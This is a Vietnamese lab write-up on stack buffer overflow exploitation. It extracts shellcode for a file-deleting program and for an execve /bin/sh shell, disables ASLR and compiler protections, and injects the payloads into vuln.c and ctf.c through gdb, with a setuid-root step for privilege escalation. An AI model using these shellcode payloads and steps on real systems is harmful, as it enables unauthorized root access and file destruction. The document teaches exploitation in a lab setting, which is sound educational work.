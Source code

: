 Lab 2:

# Inject code to delete file: file_del.asm is given on github

Ý tưởng:

-   Program injected: file_del.o được biên dịch từ file_del.asm
    
-   Đối tượng bị chèn vào: vuln.c

Các bước:

1. Dịch mã máy từ file_del.asm thành file_del.o\
    `nasm -g -f elf file_del.asm `\
 ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQIVWHD1iadEHZep9K55e_2ob3jPBDXtqATQvb2qYfaehaLJTSHs5a559M3ou6fiOHEsKmc6uHWB5tCYEX2KMpToq_9tXAv-cxStpYBDMPx3IIIezR5eGXcBnO3N3sBblCRcEaAfaMxKcXvaIU2hL0fgY?key=x066aHYoH5XtbJjV6Ng-LQ)

2. Link file_del.out với lệnh file_del\
`ld -m elf_i386 -o file_del file_del.o `\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3OoBdDkJp7idolhrmbYqguAbCsucW-GmHHkZTe7K612tfmLV4TcLGM9eU9VmJvhigM5Is-yV1iPp2QqhUUA96KnBvI157uJHKOeWYpOZCPYhGqKFnYaR3qMZJ4BoCFRs3tJ3TnzWya98PaqG3p9GkbRg?key=x066aHYoH5XtbJjV6Ng-LQ)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXegracxlM1zwXtsRKM-UvdedDnAFX7Rr0_y1f9hk69cyo_QVk_ABSouIeEUqBqqnBYj2XhFaAFa4INaItF92kdju1VYlmu7LCYn0S939wzsQUQInbKMfzjNC4U5voC61pBVK89nIfzHdLzBcs4MsHKcHF-_?key=x066aHYoH5XtbJjV6Ng-LQ)
    
3. Disassem chương trình file_del  
`objdump -d file_del `\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdTjMDyYv459ARkFwM9iVfszV8aeJE3pogQ5IPYlufXx9Gf1qQDDftJlwaLM5yJiLbRZYtzNP-EaMvejM5RU950YWJxdHmzckZM0Q7UdjbeUO2Bi92d8AULobsOv6Re5rWjZQ6TGi7CHwxng5A7CPMoBDY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
4. dịch chương trình file_del từ hợp ngữ thành mã máy  
`for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYe2o8lL9kwg5bMXu5xrWoTK0nbyTZOfOgPZHnBrPs2UN3J3_hDuEBJ146ykJ9eTJakeoCwk09ebR_U4ZLgwJ3JPdjFAYH_G1EI_5crtOycEp9wxnL6cMFy4aNGHSWCuqsJ1KoJ2WO386-E3fueU9RqM8?key=x066aHYoH5XtbJjV6Ng-LQ)  
Kết quả cho ra là: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`
    
5.  Dịch chương trình đối tượng: vuln.c thành vuln.o  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZ9ABA_1KiObJj2QUfm6Hy0BQ6SDoLV799XuttVum_Da6bMdiU-LALTjo86pyipoozIXO9kPrxy60iQeC3Cgvy3fMbLJoKTqHTQkVKQ-L-p4m1uOSpWZWKsFD3TXLvw8g_HO84sy0dn-HW8zux31lIarNM?key=x066aHYoH5XtbJjV6Ng-LQ)
    
6.  aaa  
`sudo ln -sf /bin/zsh /bin/sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcB9mQh9boKp_0s3id9x_TNV91mrWeBvm6giv1E19Y358fttoRP8wzQybKpKhyhgKIYMp7qvA1d4rit8dM15g8Pukrfs161es2HPhcYO24Ka3RPjyUkDUYNkSfwkMsmW-Q4Q3vfiRSq8y4c6zZp1K3O3uI1?key=x066aHYoH5XtbJjV6Ng-LQ)  
    (Password: dees)
    
7.  Debug chương trình đối tượng vuln.out  
`gdb -q vuln.out (P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)`
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeOZuT-Y-D8xTgQBQrJQ-cXwgbygc-iFygnB75Z1qQvpNNsWYlA_cbCPUhAbX7PMiuf34GHBlieU_948BYMNjBZbKzS_XNbEvlTZUNh6iJVLnE04B8F1UvrRExk2Bvgja6DkTl9IBmWBL211usvNf_1ASzY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
8.  Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy  
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfAvMCRd8vadEfkSaTVBCoZ342_LVShHjvyN91qksvL1yJGLZRjfWF2PXPEQ4ILy76HmtYIUSIQ0EmAJTOixGPRBfFIElYRTQk4VF_rpz2j251MbyQL6IYW2QkJul-Ybz9pmK_T8UoSAVexqbN5cS_TUh4?key=x066aHYoH5XtbJjV6Ng-LQ)
9.  Đặt breakpoint tại vị trí 1 và 2 theo hình trên:  
    Lý do:
    - Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)  
    - Sau khi hoàn thành lệnh strcpy và đã giải phóng ebp và trở về return address (‘ra’)  
    Bằng lệnh:\
    `b *0x08048441`\
    `b *0x0804846b`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXddHftwjaIAomnUfTJbftN778zpVZ7UGwCBSxIZfyjFhr-LKIfp3OEiALnL301NVmJmIO82_EB7UizAap2boWu8ceWCdBSGEN9tXU2jAEWXiRYtNhE0ThPofS5SUFLy6taM1zBIhgCsYpNWHdlTSIpyn7vm?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Extra: Kiểm tra breakpoint bằng info breakpoint và xoá breakpoint bằng lệnh del [số thứ tự của breakpoint]
    
10.   Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]  
 `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 23 + '\xff\xff\xff\xff')")`\
Giải thích: r Run chương trình python [...]\
`print(“[chương trình file_del ở dạng mã máy] + ‘a’ 23 lần + [giá trị ngẫu nhiên]”)`\
Giải thích về ‘a’ 23 lần:\
Stack của hàm main()\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfd6JeOXapIP7aCfbg4igVY2MpOmVbFiGD7LE8d4SOo7c3pcZr84dJY9nzmbaxlUOg_ynd7RZJXJUmQOmIWjK_YLcXVz2CvDR7t_2sfwvOA22EvF64c-C6ajoD3lT5KJThR2UrEzAa23sbQ3OkBLGn8eNR6?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Ảnh chi tiết từ buf đến ‘ra’ của stack main  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCyYQ75GmFBipRzNUaydXbMvXR8RN4B3hlsIOJsqMyJ9E0GRhn_o2I2Fu9bsYjiKrOjE7BapKD7w4yiTk0N6_4oy5dhPgO1g1CkGy55vfiJXW6l45u_7nhjPkQm--p5a3xnUkSR0Kk6spOttI8a59PVv4z?key=x066aHYoH5XtbJjV6Ng-LQ)\
    biến buf có dung lượng là 64 bytes, chúng ta cần ‘tiêm’ chèn vào trong biến mất 45 bytes nghĩa là buf còn lại 19 byte và chúng ta cần fill hết 19 byte đó bằng ký tự ‘a’  
    Phía dưới của biến buf là ebp (base pointer aka frame pointer/ extended base pointer) có dung lượng là 4 bytes và chúng ta cũng cần fill với 4 ký tự ‘a’\  
    Đến ‘ra’ cũng có dung lượng là 4 bytes và đó là nơi chúng ta lưu vị trí của chương trình file_del cũng là địa chỉ của con trỏ esp (extended stack pointer) (sau khi hoàn thành stack thì con trỏ esp luôn ở trên cùng của stack nghĩa là ở trên của biến cuối cùng được thêm vào)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeHTpass1StoowTLUFxMn5xafGO36vV_wkI_SVay1hUVfVpCTx_V-cVMbZ26_gO8vpIVfkfMjgM9MwBwRbBBkC2pQpa53TZMHgLaDskrvPZbu1qMdySVA9GMuBuWGwRJjwnYSXMUxrsPD5k7C7Cixcq1V3G?key=x066aHYoH5XtbJjV6Ng-LQ)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdDv9Eu7I5ni-Qh99r9_2cDX1SA5yUocwOZ-_t8aoHKVIQLW4280dUStXPoZ5PMc8_wSDFxeFsh5VZBnCwcYdbCNhfn3D0x7nSxG6Qyo81BGRsyeU_3-J1QrR8r9HHupKCC1-tih8KqefnydkyBma1sC4t9?key=x066aHYoH5XtbJjV6Ng-LQ)\
11.   Xuất 80 bytes từ con trỏ esp\
`x/80xb $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdSCmk5Hs5I3KhndgTpi8Diiw9MUqPooEtUFEmbJKUg1Yyww2TGvfHu2B0zfreqNlEI30t3P1tXPthdHfvxojq8aiFJ22GvszBolgGJBU7KN4KJ0BqYpTA193aX93xVwLuYfx4BEHPrAnQImnjegUJ8-xF4?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Giải thích: Tại sao lại là 80 bytes\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQPYE671s2lYTm_FHnyDs6ZXezisSA_vVuGfHwpt8IW1VgBDZiKtSvEX5bEpEegM0qnaMouMNDjwx7jgo8XtibTHEPY7Ls2olWQZ9qTJnlYrnVn-5-PLEcLmUXgY2I5SRxf5lF2W1A9WtKvsLoppU9OflW?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Stack của hàm main gồm argv[] 4 bytes, argc 4 byte, ‘ra’ 4 bytes, ebp 4 bytes, buf 64 bytes. Tổng là 4 + 4 + 4 + 4 + 64 = 80 bytes  
    Nghĩa là stack của hàm main có 80 bytes và con trỏ esp ở trên cùng của stack. Từ đó xuất 80 bytes từ con trỏ esp nghĩa là xuất hết các giá trị trong stack\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4ou9j0EvlDEoy84oX1NZkeSuU2MBEtUCOl1vg8LqEfihixKp4_0GDtnzdJLH_OQg0Oym1_zjIu_yhFIpurQWk0zrA_3gtYpVI11DBxzDAKh6eL1bhgHDsshPRGePL8zZV3RVAi2mEJxurr6OW3VZp168J?key=x066aHYoH5XtbJjV6Ng-LQ)\
12.   Chèn vị trí của esp (phía trên buf để chạy chương trình được chèn ở đầu buf) vào ‘ra’ để chương trình khi kết thúc stack sẽ chạy buf  
    *** Nhớ là set sau khi chương trình đã được chèn sau khi lệnh strcpy đã được thực thi nhá!\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf1JUcca3oVFNhL4CKPK7T6KwycCIwyRycYLkaKNHFoNmyegmElOxY1fm6zTzDYQG7z3eJobQkiSEhX34c4iw0xxhatSKXEtDGoWlGui_NRSWTWZJDTI82civeUI3K1b0ulrCWC8O8vmddHbr78nq6Abtg?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Done

# Conduct attack on ctf.c

 1.  Chuẩn bị môi trường để tấn công:  
    Tắt cấp phát địa chỉ stack ngẫu nhiên để dễ kiểm soát địa chỉ stack:mặc định là 2  
    `sudo sysctl -w kernel.randomize_va_space=0`\
    Tạo symbolic link tới zsh thay vì sh (default) để tránh bị ngăn chặn root từ Ubuntu  
    `sudo ln -sf /bin/zsh /bin/sh`
 2.  Biên dịch chương trình sh.asm thành sh.o rồi link thành sh để thực thi  
    `nasm -g -f elf sh.asm` -> tạo ra file sh.o\
    `ld -m elf_i386 -o sh sh.o` -> tạo ra file sh
 3.  sh là chương trình lấy quyền điều khiển của chương trình. Khi thực thi .sh sẽ xuất hiện shell ký hiệu là ‘$’ nghĩa là quyền thực thi chương trình của user seed (user hiện tại) chứ k phải quyền điều khiển root (administrator của window)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdjWDrbmUojSXG2gSFc_rOfuPSMlVR6J-T80CbvtVILtQ3U-fxuyBjXYnqG_FNX7byv269EYQgmxAe6QTZyjUqK-yf4tCax4QDkrdiN1encz7Tqpj7D6UevY-qv0HDlgWU8IXM6jVLC8WkZ30eVN-1gL5M?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Để *leo thang đặc quyền* cho chương trình sh có quyền của root ta thực hiện các thao tác sau.
 4.  Chuyển quyền sở hữu của file sh cho root 
    `sudo chown root sh`\
    (P/s: password là dees)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWMukUtYhNT4Nn661GgLPqcigp1s7Bbl5_WM920XBqHtfKfuKXbaiyFAE_fAKKsfBP9Abj3YaqLTGHYCIy3YvMGS2d_SSrkF0UZTvfwoEn2LlZiAWECLowpefRIbp0IfSMqAwqThSnL0CPiPDkQPpGkoDu?key=x066aHYoH5XtbJjV6Ng-LQ)\
    1.  Thay đổi quyền truy cập của file sh thành 4755  
   `sudo chmod 4755 sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJ0xaiH5bGbpyg07UphikAeWl0stG2k-9bG1U8quXxBxmz5FOihtScQjqhwNzm95eP6DRKyUwFG4gF7UpDjW44kE9qxlre2vUHd-gjUZut4oRm1EHugLl7WgIRz_BH6EZMVyI9vPyl0uElMdn2nksGbAG0?key=x066aHYoH5XtbJjV6Ng-LQ)  
    [Giải thích:      
    ](https://www.youtube.com/watch?v=lNEa855uipg)chmod Change mod  
    4 là chạy với quyền thực thi của owner thay vì là user, ở đây là quyền của root thay vì là của seed\
    7 là các quyền của owner: rwx là read write execute\
    5 là các quyền của group owner: r-x là read and execute\
    5 là các quyền của other user: r–x là read execute\
 1.  Sau đó chạy chương trình sh bằng `./sh`    
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfeLt4eWpp9H-LUhnnVA9go06SZWerG_iH10Z2sJEGlFkWDNSgK041MPHRCCoxLAaifCS3mXN5T419Pbfpy0Vce3KjPeXYZH9I0TbOFp0aczjgMvJ8eprFwn3UN9WxT33aLL64JD21d1bOtOYSfCvp0utDh?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Dấu # sẽ hiện ra nghĩa là đang thực thi shell ở quyền root thay vì $ của user  
    Thoát bằng lệnh exit    
 1.  Biên dịch chương trình đối tượng ctf.c thành ctg.out với tắt các cơ chế bảo vệ để có thể tấn công:  
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`
 1.  Rã chương trình sh thành opcode  
`for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`\
    Kết quả cho ra:\
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80  `\
    size: 27 bytes  
Debug chương trình ctf.out  
    `gdb -q ./ctf.out`  
Sau đó rã hàm vuln và tìm vị trí của chương trình trước khi chạy strcpy và sau khi đã khởi tạo stack\
    `disas vuln`\
    Tạo breakpoint tại các điểm trước và sau khi strcpy\
    `b *0x080485b3`\
    `b *0x080485c5`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3i-Kb3Y6-4mdXDGx_SJBT4PeH2fjs8nbhCqYEfdS06sCekFfN1HC2pTVyUU_Q24H_MLbficsmxVcdUaFNy_uVWNSdNqcx0JZZ8Wr9BYaMaSlFJrsg_GvaOrhqsV2M9Ks15lxsDcgqIbWDBP2tge9C8yNq?key=x066aHYoH5XtbJjV6Ng-LQ)
 1. Chạy debug chương trình\
`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a' * 77 + '\xff\xff\xff\xff')")`\
Trong lần đầu chạy thì chương trình sẽ dùng ở breakpoint
1. Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdpuCT8PuyM6RgJHGoMm2Ct18_9HdO0kOFmKmWKnIuyRYaQVE9m7_lchyRN6qapxW9u49QFAilQDM8bS5AVjsL8XTgyQDNXK02C3xYqzbRUiZ_0yYKDClUet9JxbQGRoCkX37_xfoRG8-Jek8CVg1ApOy9Z?key=x066aHYoH5XtbJjV6Ng-LQ)\
Tiếp tục chương trình bằng lệnh `continue` để đến breakpoint 2.
Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXca0HqNLeIUkPjoaxLj4-ARRXDTrdT-ybpOfs6D2-jn8vwyzymxjDfWs-HwCy4oHCDsrsJyGRRPEBGDB2M5vExdvCH4o4ekCpqY3SrVXVjqdNV6RELQHhZPorSLVgO3J044UsbSfwovPrd6VN1RGB31Yih0?key=x066aHYoH5XtbJjV6Ng-LQ)\
Chương trình sh đã được chèn thành công vào trong buf[100] của chương trình ctf.out\
Chúng ta cần thay đổi địa chỉ của 'ra' thành địa chỉ của esp là địa chỉ xuất phát của chương trình được tiêm vào.\
`set *0xffffd6e0 = $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGOnFEzJ_1UQhRK4IywOlc59rBKJbLnrcqXipIsoAiBdUP2XlVqtWruwgJsHRWmzlB9p6LBBhIuh-qPR6JJY2YnZ6uLhCXIssncTiyR8gDYA0qBCAXeVVuebCc2za7lb3G9TkmsuOLSlWeh0cXSB3mc-kA?key=x066aHYoH5XtbJjV6Ng-LQ)\
*Giải thích: vì sao lại là 0xffffd6e0*\
*Vì tại địa chỉ bắt đầu của 'ra'*